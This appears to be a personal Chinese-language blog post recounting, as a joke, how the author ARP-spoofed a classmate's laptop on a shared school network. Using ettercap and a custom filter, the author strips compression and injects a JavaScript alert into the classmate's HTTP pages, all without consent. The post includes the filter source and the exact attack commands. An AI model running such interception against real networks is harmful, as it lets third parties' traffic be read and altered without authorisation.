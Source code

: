 ```yaml
---
layout: post
title: 记一次非针对LGC的中间人攻击
excerpt: 真的是非针对哦(¬_¬)
date:   2016-09-13
tag:
  - hack
---
```


## 序
自从昨天9月12日停电以后，历二信竞队教室原本70Mbs的网络，莫名其妙的降到了10Mbs不到……网页大规模卡崩，ping baidu.com丢包严重。这对于历二信竞队来讲，简直就是一场灾难……  
  这差不多算是没了网，奥赛室一片死寂。Gengxin抬头望去，LGC居然还在看视频！！！  
  他在看视频！  
  在看视频！  
  看视频！  
  视频！  
  频！  
  ！  
这个就有点尴尬了……既然全教室的网这么慢，你还在看视频!Gengxin有点小愤怒。打开路由器管理界面，嗯……流量全在LGC那。很久以前就发现，LGC的小笔记本网卡似乎比我们的更好一点，在很远的地方也能收到wifi信号，并且……还是接近满格！如果让流量先经过Gengxin的渣渣网卡呢？\\(¬\_¬\)于是Gengxin默默的打开了自己的Kali虚拟机。  

## One
首先科普一下，什么是中间人攻击。  
中间人攻击（Man-in-the-middle attack，缩写：MITM）是指攻击者与通讯的两端分别创建独立的联系，并交换其所收到的数据，使通讯的两端认为他们正在通过一个私密的连接与对方直接对话，但事实上整个会话都被攻击者完全控制。（以上引自[维基百科](https://zh.wikipedia.org/wiki/%E4%B8%AD%E9%97%B4%E4%BA%BA%E6%94%BB%E5%87%BB)）。简单的说，就是LGC电脑的流量都会流经Gengxin的电脑，而路由器和LGC的电脑都会傻傻的以为自己正在安全的连接对方。  
这里，Gengxin用了一个非常有名的多用途嗅探器——ettercap。其实如果不用这个工具的话，攻击的过程也十分简单，可以用一个Python脚本轻松实现——scapy库查看编辑数据包是十分方便的。  

## Two  

Kali系统下ettercap是预置的，所以我不需要额外的安装。
<figure>
  <a href="http://images2015.cnblogs.com/blog/831801/201609/831801-20160913211455070-1683114145.jpg"><img src="http://images2015.cnblogs.com/blog/831801/201609/831801-20160913211455070-1683114145.jpg"></a>
</figure>
好的，既然LGC在浏览网页，那就来个HTML注入好了。“Gengxin 想 ban 你 哦”。  
我们首先要写一个过滤脚本。  

{% highlight cpp %}
if (ip.proto == TCP && tcp.dst == 80)
{
    if (search(DATA.data, "Accept-Encoding"))
    {
        replace("Accept-Encoding", "Gengxin-NoEncoding");
        msg("就是不让你压缩Q'W'Q\n");
    }
}
if (ip.proto == TCP && tcp.src == 80)
{
    replace("<head>", "<head><script type="text/javascript">alert('Gengxin想ban你哦QWQ');</script>");
    replace("<HEAD>", "<HEAD><script type="text/javascript">alert('Gengxin想ban你哦QWQ')');</script>");
    msg("成功注入Q'W'Q!!\n");
}  
{% endhighlight %}


这段代码第一个if块，是如果网页源码中有Accept-Encoding的时候，替换掉它（Accept-Encoding是声明浏览器支持的编码类型，在这里可以理解为请求压缩的意思）。第二个if块就是我们插入HTML的地方了。js代码里`alert("")`会使网页出现一个弹窗。这就是我要达到的目的。  

OK，把这段代码保存为`banLGC.filter`.   

接下来，编译我们刚刚的banLGC.filter脚本。代码如下：

~~~
etterfilter banLGC.filter -o banLGC.ef
~~~

接着，我们在路由器后台找到LGC的IP地址，然后用我们刚刚编译好的脚本，发起对LGC的中间人攻击

~~~
ettercap -i eth0 -Tq -M arp:remote /192.168.31.106// /192.168.31.1// -F banLGC.ef
~~~

然后在Gengxin的电脑上，成功的打印出了`成功注入Q'W'Q!!`

<figure>
  <a href="http://images2015.cnblogs.com/blog/831801/201609/831801-20160919114624871-1977932968.jpg"><img src="http://images2015.cnblogs.com/blog/831801/201609/831801-20160919114624871-1977932968.jpg"></a>
</figure>

猛然间，不远处的LGC发出了杠铃般的笑声————Gengxin！你要做什么！我网速是怎么了！！   
  
然后基友就一上午没有理我QAQ'A'Q  

最后Gengxin还是跟系又说明了情况，然后道了歉  

然后就没有然后了  
